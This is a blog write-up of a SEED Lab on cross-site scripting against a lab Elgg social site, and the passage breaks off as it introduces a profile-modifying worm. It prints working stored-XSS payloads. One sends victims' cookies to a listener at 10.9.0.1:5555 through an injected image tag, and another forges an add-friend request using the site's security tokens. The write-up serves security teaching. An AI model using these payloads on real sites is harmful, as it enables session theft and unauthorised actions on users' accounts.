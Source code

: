 ```yaml
---
layout: post
title: Cross-Site Scripting
excerpt: Cross-site scripting (XSS) is a security vulnerability that allows attackers to inject malicious codes into web pages. XSS is introduced when a web application fails to properly sanitize user input before including it in a dynamically generated web content. This means that when regular users visit the affected website, their browsers unintentionally run the injected code, which can lead to different harmful activities. XXS can either be reflected or stored.
categories: xss
---
```


Cross-site scripting (XSS) is a security vulnerability that allows attackers to inject malicious codes into web pages. XSS is introduced when a web application fails to properly sanitize user input before including it in a dynamically generated web content. This means that when regular users visit the affected website, their browsers unintentionally run the injected code, which can lead to different harmful activities.

There are different types of XSS attacks, including:

- Reflected XSS: This type of XSS occurs when malicious code is injected into a website and then reflected back to user. This usually occurs through a malicious a link containing the injected code.

- Stored XSS: This type of XSS occurs when malicious code is permanently stored on a web server and then served to users whenever they access a specific page or resource. 

XSS posses a serious threat to web applications as they can allow attackers to steal sensitive information, manipulate users experience, and perform unauthorized actions. To prevent XSS vulnerabilities, web developers need to properly sanitize input gotten from users, encoding all content gotten from the user, and implement security measures such as Content Security Policy (CSP specifying what content can be executed on a website).

In this post, I aim to document my findings and observations while performing a SEED Lab.


###  Posting a Malicious Message to Display an Alert Window

For the puropse of this task, I assume the user samy. 

The purpose of this task is to embed a JavaScript program in a my profile page so that when other users view my profile, the JavaScript program will run and an alert window will be displayed. 

To accomplish this, I embed the following code in my profile page: `<script>alert('XSS');</script>`

***image***

After saving the changes made to my profile page, once anyone attempts to view Samy's profile, the script would run. This is true whether the user is logged in or not.

***image***

<br>

###  Posting a Malicious Message to Display Cookies

For the puropse of this task, I assume the user Samy. 

The purpose of this task is to embed a JavaScript program in a my profile page so that when other users view my profile, the user’s cookies will be displayed in an alert window.

To accomplish this, I embed the following code in my profile page: `<script>alert(document.cookie);</script>`

***image***

After saving the changes made to my profile page, once anyone attempts to view Samy's profile, the script would run. This is true whether the user is logged in or not.

***image***

<br>

### Stealing Cookies from the Victim’s Machine

The cookies being reflected to the user has no benefit to the attacker. What the attacker would want is to somehow get the JavaScript code to send the cookies to himself/herself. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookies appended to the request.

To accmplish this:

- I set up a server waiting for a connection from the malicious javascript

  `python3 -m http.server -b 10.9.0.1 5555`

- I set up a malicious javascript code that contacts the server with a GET request and the user's cookie as the data of the GET request

  ```javascript
    <script>
      document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' width=1px height=1px' + ' >');
    </script>
  ```

***image***

After saving the changes made to my profile page, once anyone attempts to view Samy's profile, the script would run. This is true whether the user is logged in or not.

***image***

<br>

### Becoming the Victim’s Friend

In 2005, Samy performned and XSS attack on Myspace that adds him as a friend to any other user that visits his page. The purpose of this task is to try and replicate what Samy did.

For anyone that visits Samy's page to automatically add him as a friend, the JavaScript code has to forge the  HTTP requests directly from the victim’s browser. Thus it is important to find out how the website crafts friends requests so we would know what needs to be sent to the server for the attack to be succesful.

To accomplish this, I embed the following code in my profile page:

```javascript
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        //Construct the HTTP request to add Samy as a friend.
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59&" + ts + token
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

***image***

After saving the changes made to my profile page, once anyone view Samy's profile, the script would run and they add Samy as thier friend.

***image***

***image***

It is important that the text field where the code is placed is free from any form of formatting. This means always using `HTML mode` rather than `visual editor` as the visual editor introduces formatting that voids the code as seen below.

***image***

<br>

### Modifying the Victim’s Profile

The objective of this task is to modify the victim’s profile when the victim visits Samy’s page. Specifically,
modify the victim’s "About Me" field. We will write an XSS worm to complete the task. This worm does
not self-propagate; in task 6, we will make it self-propagating.
Similar to the previous task, we need to write a malicious JavaScript program that forges HTTP requests
directly from the victim’s browser, without the intervention of the attacker. To modify profile, we should
first find out how a legitimate user edits or modifies his/her profile in Elgg. More specifically, we need
to figure out how the HTTP POST request is constructed to modify a user’s profile. We will use Firefox’s
HTTP inspection tool. Once we understand how the modify-profile HTTP POST request looks like, we can
write a JavaScript program to send out the same HTTP request. We provide a skeleton JavaScript code that
aids in completing the task.
